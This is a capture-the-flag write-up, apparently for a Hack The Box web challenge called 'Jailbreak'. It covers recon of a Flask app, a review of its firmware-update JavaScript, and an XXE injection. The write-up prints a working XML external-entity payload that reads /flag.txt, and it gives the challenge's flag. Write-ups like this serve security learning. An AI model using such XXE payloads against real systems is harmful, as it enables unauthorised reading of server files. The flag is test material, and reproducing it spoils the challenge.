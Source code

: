# Challenge: Jailbreak (Web)

## Challenge Overview

**Name:** Jailbreak
**Category:** Reversing
**Difficulty:** Very Easy

### Description:

The crew secures an experimental Pip-Boy from a black market merchant, recognizing its potential to unlock the heavily guarded bunker of Vault 79. Back at their hideout, the hackers and engineers collaborate to jailbreak the device, working meticulously to bypass its sophisticated biometric locks. Using custom firmware and a series of precise modifications, can you bring the device to full operational status in order to pair it with the vault door's access port. The flag is located in /flag.txt

---

# Challenge Progress: JailbreaK 

## Recon & Enumeration

### Initial Scanning

```bash
whatweb http://94.237.60.55:31755
```

**Result:**

- Server: Werkzeug (Python 3.12.3)
- Framework: Flask
- Tech stack: Bootstrap, jQuery, HTML5
- Title: PIP-OS(R) V1.33.7

---

## Content Discovery

Manual browsing revealed several interesting endpoints:

- `/flag.txt` → Forbidden
- `/console`, `/debug`, `/vault`, `/firmware`, `/api/`, `/rom` → Some accessible
- `/rom` → Firmware update interface

---

## Source Code Review

Found JS file: `/static/js/update.js`

```javascript
const queueUpdate = async (xmlConfig) => {
    const response = await fetch("/api/update", {
        method: "POST",
        headers: {
            "Content-Type": "application/xml",
        },
        body: xmlConfig
    });
    return await response.json();
};

window.onload = async () => {
    const xmlConfiguration = `<FirmwareUpdateConfig>
    <Firmware>
        <Version>1.33.7</Version>
        <ReleaseDate>2077-10-21</ReleaseDate>
        <Description>Update includes advanced biometric lock functionality for enhanced security.</Description>
        <Checksum type="SHA-256">9b74c9897bac770ffc029102a200c5de</Checksum>
    </Firmware>
    </FirmwareUpdateConfig>`;
    $("#configData").val(xmlConfiguration);

    $("#updateBtn").on("click", async () => {
        const msg = await queueUpdate($("#configData").val());
        $("#messageText").text(msg.message);
    });
};
```

This confirms XML is parsed server-side → **XXE attack vector**.

---

## Exploitation - XXE Injection

### Failed Attempt

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<root><data>&xxe;</data></root>
```

**Error:**
```
The root element must be 'FirmwareUpdateConfig'.
```

### Working Payload

```xml
<!DOCTYPE FirmwareUpdateConfig [
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<FirmwareUpdateConfig>
  <Firmware>
    <Version>&xxe;</Version>
    <ReleaseDate>2077-10-21</ReleaseDate>
    <Description>Test</Description>
    <Checksum type="SHA-256">abc</Checksum>
  </Firmware>
</FirmwareUpdateConfig>
```

This payload successfully triggered the file read from `/flag.txt`.

---

## 🏁 Flag

```
HTB{b1om3tric_l0cks_4nd_fl1cker1ng_l1ghts_d22128d8ecb3f9f9a45cdb341917fb5b}
```

GOODD GUYSSSS~